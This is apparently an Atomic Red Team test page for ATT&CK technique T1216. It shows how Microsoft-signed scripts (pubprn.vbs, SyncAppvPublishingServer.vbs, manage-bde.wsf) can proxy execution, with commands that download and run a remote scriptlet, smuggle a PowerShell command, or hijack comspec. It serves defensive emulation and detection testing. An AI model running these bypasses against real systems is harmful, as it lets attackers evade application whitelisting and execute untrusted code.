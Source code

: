 # T1216 - Signed Script Proxy Execution
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1216)
<blockquote>Scripts signed with trusted certificates can be used to proxy execution of malicious files. This behavior may bypass signature validation restrictions and application whitelisting solutions that do not account for use of these scripts.

PubPrn.vbs is signed by Microsoft and can be used to proxy execution from a remote site. (Citation: Enigma0x3 PubPrn Bypass) Example command: <code>cscript C[:]\Windows\System32\Printing_Admin_Scripts\en-US\pubprn[.]vbs 127.0.0.1 script:http[:]//192.168.1.100/hi.png</code>

There are several other signed scripts that may be used in a similar manner. (Citation: GitHub Ultimate AppLocker Bypass List)</blockquote>

## Atomic Tests

- [Atomic Test #1 - PubPrn.vbs Signed Script Bypass](#atomic-test-1---pubprnvbs-signed-script-bypass)

- [Atomic Test #2 - SyncAppvPublishingServer Signed Script PowerShell Command Execution](#atomic-test-2---syncappvpublishingserver-signed-script-powershell-command-execution)

- [Atomic Test #3 - manage-bde.wsf Signed Script Command Execution](#atomic-test-3---manage-bdewsf-signed-script-command-execution)


<br/>

## Atomic Test #1 - PubPrn.vbs Signed Script Bypass
Executes the signed PubPrn.vbs script with options to download and execute an arbitrary payload.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_payload | A remote payload to execute using PubPrn.vbs. | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216/src/T1216.sct|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs localhost "script:#{remote_payload}"
```






<br/>
<br/>

## Atomic Test #2 - SyncAppvPublishingServer Signed Script PowerShell Command Execution
Executes the signed SyncAppvPublishingServer script with options to execute an arbitrary PowerShell command.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | A PowerShell command to execute. | string | Start-Process calc|


#### Attack Commands: Run with `command_prompt`! 


```cmd
C:\windows\system32\SyncAppvPublishingServer.vbs "\n;#{command_to_execute}"
```






<br/>
<br/>

## Atomic Test #3 - manage-bde.wsf Signed Script Command Execution
Executes the signed manage-bde.wsf script with options to execute an arbitrary command.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | A command to execute. | Path | C:&#92;Windows&#92;System32&#92;calc.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
set comspec=#{command_to_execute}
cscript manage-bde.wsf
```

#### Cleanup Commands:
```cmd
set comspec=C:\Windows\System32\cmd.exe
```





<br/>
